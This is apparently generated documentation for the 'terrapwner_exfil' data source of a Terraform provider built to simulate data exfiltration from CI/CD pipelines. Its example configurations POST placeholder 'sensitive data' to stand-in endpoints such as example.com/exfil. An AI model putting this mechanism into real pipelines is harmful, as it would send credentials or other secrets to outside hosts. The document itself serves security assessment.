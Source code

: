 ```yaml
---
# generated by https://github.com/hashicorp/terraform-plugin-docs
page_title: "terrapwner_exfil Data Source - terrapwner"
subcategory: ""
description: |-
  Simulates or assesses data exfiltration from a Terraform CI/CD pipeline by sending content to a remote HTTP endpoint.
---
```


# terrapwner_exfil (Data Source)

Simulates or assesses data exfiltration from a Terraform CI/CD pipeline by sending content to a remote HTTP endpoint.

## Example Usage

```terraform
terraform {
  required_providers {
    terrapwner = {
      source = "hashicorp.com/DataDog/terrapwner"
    }
  }
}

provider "terrapwner" {}

# Example 1: Basic usage with custom timeout
data "terrapwner_exfil" "example1" {
  content  = "This is sensitive data"
  endpoint = "http://example.com/exfil"
  timeout  = 5 # 5 seconds timeout
}

# Example 2: Using default values
data "terrapwner_exfil" "example2" {
  content  = "Another sensitive data"
  endpoint = "http://example.com/exfil"
  # Using default timeout (10 seconds)
}

# Example 3: Testing failure scenarios with short timeout
data "terrapwner_exfil" "example3" {
  content       = "Data that won't be sent"
  endpoint      = "http://slow.example.com/exfil"
  timeout       = 2 # 2 seconds timeout (will cause timeout error)
  fail_on_error = true
}

# Output all attributes for each data source
output "example1_exfil" {
  description = "All attributes from the example1 exfiltration"
  value       = data.terrapwner_exfil.example1
}

output "example2_exfil" {
  description = "All attributes from the example2 exfiltration"
  value       = data.terrapwner_exfil.example2
}

output "example3_exfil" {
  description = "All attributes from the example3 exfiltration"
  value       = data.terrapwner_exfil.example3
}
```

<!-- schema generated by tfplugindocs -->
## Schema

### Required

- `content` (String) The string content to exfiltrate.
- `endpoint` (String) The full URL to send the POST request to.

### Optional

- `expect_success` (Boolean) Whether a failed exfil is expected or not.
- `timeout` (Number) Timeout in seconds for the HTTP request (default: 10).

### Read-Only

- `fail_reason` (String) If failed, stores the error message.
- `response_code` (Number) HTTP response status code.
- `success` (Boolean) True if HTTP response code is 2xx.
